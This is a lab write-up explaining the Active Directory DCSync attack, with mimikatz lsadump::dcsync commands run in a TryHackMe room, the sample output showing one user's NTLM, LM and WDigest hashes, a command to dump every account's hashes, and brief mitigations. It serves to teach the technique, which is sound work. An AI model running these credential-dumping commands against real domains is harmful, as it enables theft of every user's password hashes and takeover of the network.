 ### 1. AD Replication theory
AD replication is the process of synchronizing all objects from one Domain Controller to another Domain Controller. By doing this, all the Domain Controllers in the same site and forests can have updated objects to perform authentication correctly.

### 2. What is DcSync?
DCSync is an attack based on AD replication that the adversary try to pretend as the Domain Controller to get data of all the objects, especially users' passwords and hashes. This technique is usually used for lateral movement like pass the hash or doing RDP login. Also, it can be used for persistence since attackers can use the gathered passwords to get a foothold on the domain all the time.

### 3. How DcSync works
1. Adversary compromise accounts with high privilege that have the ability to perform AD replication. By default these privileges are limited to the: domain administrators, enterprise administrators, administrators, and domain controller groups.
2. Attackers run mimikatz using the high privilege account to perform the Dcsync attacks using lsadump module. Because attackers have the credentials of the high privilege accounts, he can pretend to be the domain controller and perform DCSync
3. After retrieving all the users hashes and passwords, attacks can attempt to transfer them to their machine and crack those hashes offline to retrieve the plaintext password for other attacks such as RDP login

There are different ways that we can pretend to be high privilege account. One way is to create a forged Golden Ticket using KRBTGT account. This could help the adversary access all resources with no limitation

### 4. DcSync with mimikatz
Note: These commands run on lab environment of Tryhackme at https://tryhackme.com/room/persistingad
Once the account that has permission to replicate objects, we can run Mimikatz DcSync. For example, we can try to dump the hashes of users aaron.jones

```powershell
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:aaron.jones
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones 

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 ( USER_OBJECT )    
User Account Control : 00000200 ( NORMAL_ACCOUNT ) 
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429 
Object Relative ID   : 1429

Credentials:
  Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc 
    ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc 
    lm  - 0: 0fd2685aa18c78bd265d02bdec203b04 

[...]

* Primary:WDigest * 
    01  991d45386dd3561e0c5529d3605f96e6
    02  d5d6f25b233c87b289706d7b423f1145
[...]
```

We can also dump all the hashes of objects in the DC

```powershell
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

### 5. Mitigations
- Create strong password of Domain Admin accounts: this could make attacker an extra mile harder to crack the password

- Monitor accounts with object replication permission: Monitoring accounts with permission to replicate can help the blue team to alert the incident if it happned from unsual IP of the activity

### 6. References
DcSync theory: https://www.qomplx.com/kerberos_dcsync_attacks_explained/

AD Replication theory: https://blog.netwrix.com/2017/02/20/active-directory-replication/

